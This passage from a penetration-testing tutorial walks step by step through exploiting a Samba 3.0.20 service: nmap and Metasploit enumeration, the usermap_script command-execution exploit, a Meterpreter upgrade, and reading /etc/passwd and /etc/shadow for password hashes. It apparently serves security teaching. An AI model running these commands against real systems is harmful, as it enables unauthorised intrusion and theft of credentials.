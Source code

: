 ```shell

# Step 8: Verify you’re inside the web server environment
pwd # Should be something like /var/www
cat /etc/*release # Check Linux distribution

# Note: This manual method helps understand the process deeply.
# The same result could be achieved with Metasploit, but this offers better control.
```

### 7.4. Targeting SAMBA

**Objective:** Exploit the vulnerable Samba service and gain a shell.

```shell
# Step 1: Scan the target's SMB port and attempt to detect the Samba version
nmap -sV -p 445 <target-ip>  # -sV enables service version detection

# The result shows Samba version range as 3.X - 4.X but not the exact version

# Step 2: Manually connect to the port to see if any banner is shown
nc -nv <target-ip> 445  # No banner is returned, so manual checking isn't helpful here

# Step 3: Use Metasploit to accurately enumerate the Samba version
service postgresql start && msfconsole
search smb_version
use auxiliary/scanner/smb/smb_version
show options
set RHOSTS <target-ip>  # Set the target IP
run

# Now we get the exact Samba version (e.g., Samba 3.0.20)

# Step 4: Search for exploits for that version using SearchSploit
searchsploit samba 3.0.20
# In the output, look for known vulnerabilities.
# For example: 'Username map script' Command Execution (Metasploit available)

# Step 5: Go back to Metasploit and load the corresponding exploit
search samba 3.0.20
use exploit/multi/samba/usermap_script
show info  # Review the exploit details
set RHOSTS <target-ip>
show options  # Review required settings and payloads
# Optional: change payload or adjust settings if needed
exploit  # Launch the exploit

# If successful, you now have a basic shell session on the target
ls -al  # Confirm access
cat /etc/*release  # Check target OS info

# Step 6: Background the session and manage it
background
sessions  # List current sessions

# Upgrade shell to Meterpreter for more capabilities
sessions -u 1  # Upgrade session 1 to Meterpreter
sessions  # Confirm new Meterpreter session is active

# Step 7: Post-exploitation - verify system access and gather sensitive info
sysinfo  # Display system info
getuid  # Show current user (likely root)
cat /etc/passwd  # List user accounts
cat /etc/shadow  # Dump password hashes (if root access is available)
```